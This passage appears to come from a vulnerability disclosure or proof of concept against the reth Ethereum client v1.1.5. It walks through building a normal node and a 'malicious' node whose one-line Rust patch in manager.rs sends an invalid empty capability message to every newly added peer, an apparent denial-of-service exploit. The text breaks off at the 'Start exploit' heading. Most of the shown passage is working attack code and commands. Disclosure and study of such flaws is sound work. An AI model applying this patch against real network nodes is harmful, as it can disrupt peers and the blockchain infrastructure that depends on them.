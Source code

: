 Fetch reth and run normal reth node:

```bash
git clone git@github.com:paradigmxyz/reth.git reth-normal
cd reth-normal
git checkout v1.1.5
cargo build && RUST_LOG="trace" target/debug/reth node -d --chain ../chain.json --datadir data1 --http --http.api "admin,debug,eth,net,trace,txpool,web3,rpc" --max-inbound-peers 3
```

Note down the p2p enode ID for this client from the logs. The `--max-inbound-peers` has been set to 3 only for demonstration purposes. The exploit works with any max inbound size.

#### Create and run malicious node

The malicious node here is a reth node with one minor modification. It could in principle be any modified execution client or custom client.

Fetch reth

```bash
git clone git@github.com:paradigmxyz/reth.git reth-malicious
cd reth-malicious
git checkout v1.1.5
```

Only for this malicious reth version, add the following line to `crates/net/network/src/manager.rs` at the beginning of the `SwarmEvent::PeerAdded(peer_id)` block (line 758):

```rust
self.swarm.sessions_mut().send_message(&peer_id, PeerMessage::Other(reth_eth_wire::capability::RawCapabilityMessage::new(0, alloy_primitives::bytes::Bytes::new())));
```

The result should look like this:

```rust
SwarmEvent::PeerAdded(peer_id) => {
    self.swarm.sessions_mut().send_message(&peer_id, PeerMessage::Other(reth_eth_wire::capability::RawCapabilityMessage::new(0, alloy_primitives::bytes::Bytes::new())));
    trace!(target: "net", ?peer_id, "Peer added");
    self.event_sender.notify(NetworkEvent::Peer(PeerEvent::PeerAdded(peer_id)));
    self.metrics.tracked_peers.set(self.swarm.state().peers().num_known_peers() as f64);
}
```

This malicious client works by sending an invalid message to a peer the moment that peer is added.

Run malicious node:

```bash
cargo build && RUST_LOG="trace" target/debug/reth node -d --chain ../chain.json --datadir data1 --http --http.api "admin,debug,eth,net,trace,txpool,web3,rpc" --port 30304 --authrpc.port 8552 --http.port 8546
```

Note down the p2p enode ID for this client from the logs.

#### Start exploit
